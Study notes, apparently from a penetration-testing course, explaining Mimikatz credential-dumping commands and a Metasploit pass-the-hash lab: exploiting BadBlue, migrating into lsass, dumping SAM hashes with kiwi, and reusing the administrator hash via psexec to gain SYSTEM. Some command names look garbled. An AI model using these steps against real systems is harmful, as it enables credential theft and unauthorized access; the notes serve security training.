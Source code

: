 				null means cleartext passwords have been disabled 
		- 

1. **"lsa_dump_all"** is a Kiwi command in Mimikatz that is used to dump various types of information from the Local Security Authority (LSA) subsystem. It retrieves data such as secrets, cached credentials, security packages, and other relevant information stored in the LSA.
    
2. **"sekurlsa::logonpasswords"** is a Mimikatz command that retrieves plaintext passwords and password hashes for active logon sessions on the target system. It leverages the functionality of the Security Account Manager (SAM) and the Local Security Authority Subsystem Service (LSASS) to extract this information from memory.
    
3. **"lsadump::sam"** is a Mimikatz command that specifically focuses on dumping the Security Account Manager (SAM) database from the target system. The SAM database stores user account information, including usernames and password hashes. By executing this command, Mimikatz extracts the password hashes stored in the SAM database.
    
4. **"sekurlsa::sam"** is a Mimikatz command that extracts password hashes from the Security Account Manager (SAM) database in memory. It specifically targets the SAM and retrieves the password hashes, allowing further analysis, cracking, or other security-related activities.




### Pass-The-Hash Attacks 

Pass-THe-Hash

- Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
	+ We can use multiple tools to facilitate a Pass-The-Hash attack:
	+ Metasploit PsExec module
	+ Crackmapexec
- This technique will allow us to obtain access to the target system via legitimate
	credentials as opposed to obtaining access via service exploitation

Why is this important? you already have access? What if it is patched or firewall rule is enabled then you cannot exploit that service anymore? If you had a hash you could still exploit that service even if original vulnerable service has been patched or disabled 

Demo 

- turn on a msfconsole: 
	- search badblue 
	- use passtru, set rhost and exploit 
- meterpreter session on target system
	- pgrep lsass - migrate 
	- get uid 
	- load kiwi 
	- lsa_dump_sam 
	- take the administrator NTLM hash and put it in a textfile 

- how to perform password hash attack - you need ntlm and lm hash
	- hashdump 
	- put the meterpreter in the background with control + Z 
- Search psexec 
	- use ![[Pasted image 20230707142752.png]]
					for this module you need credentials
		- use default payload 
		- type session: to check what port the session is using; make sure the lport matches with the session running in the back
		- set smbuser Administrator 
		- set smbpass {paste the hash}
		- set target 
			-  set target Native\\ upload   
		- now you have a meterpreter session with elevated privileges 
			- sysinfo 
			- getuid 
			- now you have authority\\system privileges' 
			  